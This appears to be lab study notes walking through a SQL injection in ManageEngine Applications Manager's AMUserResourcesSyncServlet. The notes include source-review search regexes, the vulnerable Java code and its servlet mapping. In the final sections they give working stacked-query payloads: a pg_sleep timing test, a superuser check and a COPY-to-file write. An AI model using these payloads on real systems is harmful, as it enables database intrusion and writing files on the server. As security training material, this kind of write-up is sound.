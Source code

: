 # SQL Injection

In the source code, we notice that most query strings are assigned to the variable named query. As such, we can search for lines of code with that and the select command. Alternatively, can search for those with `SELECT .* FROM`.

- To search in Notepad++, open search menu with `Ctrl + Shift + F`
- We can also limit our search to only results with both a string concatenation and a WHERE clause.

```bash
^.*?query.*?select.*?
^.*?query.*?SELECT.*?WHERE.*?\+.*?

Search in the Notepad++ search dialog, remember to select regex expression option
```

## HTTP Handlers

In a typical Java Servlet, we can identify HTTP request handler functions due to constant and unique names `doGet` and `doPost`, each of which handles the parameters `request` and `response`.

- Searching for these functions could allow us to identify and trace user-controlled input through the application, identifying instances where the input is used in SQL queries.

In the `AMUserResourcesSyncServlet` class, we that the parameters `userId`and `masRange`are passed into the function `fetchUserResourcesofMASForUserId` . As long as we do not get stuck in the 2 `if` statements in the main function, we can pass our own variables into `fetchUserResourcesofMASForUserId` . 

- `isSyncConfigtoUserMap` parameter and `chkRestrictedRole` should not be set
- `masRange` and `userId` should be set

```java
public void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException
{
 response.setContentType("text/html; charset=UTF-8");
 PrintWriter out = response.getWriter();
 String isSyncConfigtoUserMap = request.getParameter("isSyncConfigtoUserMap");
 if ((isSyncConfigtoUserMap != null) && ("true".equals(isSyncConfigtoUserMap)))
 {
   fetchAllConfigToUserMappingForMAS(out);
   return;
 }
 String masRange = request.getParameter("ForMasRange");
 String userId = request.getParameter("userId");
 String chkRestrictedRole = request.getParameter("chkRestrictedRole");
 AMLog.debug("[AMUserResourcesSyncServlet::(doGet)] masRange : " + masRange + ", userId : " + userId + " , chkRestrictedRole : " + chkRestrictedRole);

 if ((chkRestrictedRole != null) && ("true".equals(chkRestrictedRole)))
 {
   boolean isRestricted = RestrictedUsersViewUtil.isRestrictedRole(userId);
   out.println(isRestricted);

 }
 else if (masRange != null) 
    {
   if ((userId != null) && (!"".equals(userId))) {
     fetchUserResourcesofMASForUserId(userId, masRange, out);
      } else {
     fetchAllUserResourcesForMAS(masRange, out);
   }
 }
```

It is then used in a SELECT query inside the `fetchUserResourcesofMASForUserId` function. Since no input sanitization is present, SQL injection is possible. 

```java
String qry = "select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=" + userId + " and RESOURCEID >" + stRange + " and RESOURCEID < " + endRange;
rs = AMConnectionPool.executeQueryStmt(qry);
```

To trigger the vulnerability, we use the servlet mapping found in `web.xml` to identify the URL pattern to invoke the servlet. 

```xml
<servlet>
		<servlet-name>AMUserResourcesSyncServlet</servlet-name>
		<servlet-class>com.adventnet.appmanager.servlets.comm.AMUserResourcesSyncServlet</servlet-class>
	</servlet>

<servlet-mapping>
	<servlet-name>AMUserResourcesSyncServlet</servlet-name>
	<url-pattern>/servlet/AMUserResourcesSyncServlet</url-pattern>
</servlet-mapping>
```

## POC Payload

We can thus send a web request that has the `ForMasRange` and `UserId` parameters set. If we use `1;` as the parameter for `userId`, we get the following log message. This means that we have successfully injected the SQL command using the `;` character. 

```java
[ 2023-12-20 07:02:16.777 GMT ]:LOG:  execute <unnamed>: select distinct(RESOURCEID) from AM_USERRESOURCESTABLE where USERID=1
[ 2023-12-20 07:02:16.777 GMT ]:ERROR:  syntax error at or near "and" at character 2
[ 2023-12-20 07:02:16.777 GMT ]:STATEMENT:   and RESOURCEID >1 and RESOURCEID < 10000001
```

As such, when we set the `userId` parameter to be `1;select+pg_sleep(10);`, we get a response after 10 seconds, demonstrating a successful injection. 

- However, since the `resourceID` column of the original query is defined as the `BIGINT` datatype, we can only extract arbitrary data of the same type.
- We can experiment with different characters with the query `1;select+pg_sleep(10'"_?\/);`, which is internally converted into `STATEMENT:  select pg_sleep(10&#39;&quot;_?\/)`. This means that only the characters `'"` are filtered out, while other injectable characters are preserved.

## Verifying DB Admin permissions

```sql
1;SELECT+CASE+WHEN+(SELECT+current_setting($$is_superuser$$))=$$on$$+THEN+pg_sleep(10)+END;--+
```

## Writing to file

```python
userId = f"1;COPY+(SELECT+$${content}$$)+TO+$${filePath}$$;--+"
```